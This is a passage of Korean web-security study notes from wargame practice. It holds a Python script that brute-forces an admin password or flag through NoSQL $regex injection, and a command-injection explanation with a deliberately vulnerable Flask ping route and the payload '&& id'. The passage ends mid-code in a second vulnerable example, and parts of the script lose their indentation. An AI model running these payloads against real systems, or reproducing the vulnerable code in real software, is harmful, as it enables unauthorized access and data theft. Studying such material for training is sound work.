 ```python
		if res != "admin":
			length = i
			break

	# alphanumeric
	lst = []
	for ch_idx in range(ord('0'), ord('9')+1):
	lst.append(chr(ch_idx))
	for ch_idx in range(ord('a'), ord('z')+1):
	lst.append(chr(ch_idx))
	for ch_idx in range(ord('A'), ord('Z')+1):
	lst.append(chr(ch_idx))
	  
	# find flag
	flag = ''
	for i in range(length):
		for ch in lst:
			upw = f"D.\{{"+flag+ch
			q = f'uid[$regex]={uid}&upw[$regex]={upw}'
			res = requests.get(url+q).text
			
			if res == "admin":
				flag += ch
				break
	print(flag)
  
if __name__ == "__main__":
	main()
```

## Command Injection

시스템 명령어를 실행하는 함수에 인자로 임의의 명령어를 넣어서 발생
- 유저가 임의의 인자를 전달할 떄 메타 문자 (&&, | 등) 를 사용해서 추가적인 행동을 발생시킴
- 방어하기 위해선 입력값을 반드시 검사해야함

```python
@app.route('/ping')
def ping():
	ip = request.args.get('ip') 
	return os.system(f'ping -c 3 {ip}')
```
- `/ping?ip=&&%20id`  이런방식으로 넣으면 `ping -c 3 && id` 로 인식함
- `;`. `|` 등 다른 메타 문자도 가능

### wargame

Command Injection을 통해 플래그를 획득하세요. 플래그는 `flag.py`에 있습니다.
```python
  
@APP.route('/ping', methods=['GET', 'POST'])
def ping():
	if request.method == 'POST':
		host = request.form.get('host')
		cmd = f'ping -c 3 "{host}"'
		try:
			output = subprocess.\
				check_output(['/bin/sh', '-c', cmd], timeout=5)
			return render_template(
				'ping_result.html',
				data=output.decode('utf-8'))
		except subprocess.TimeoutExpired:
			return render_template('ping_result.html', data='Timeout !')
		except subprocess.CalledProcessError:
```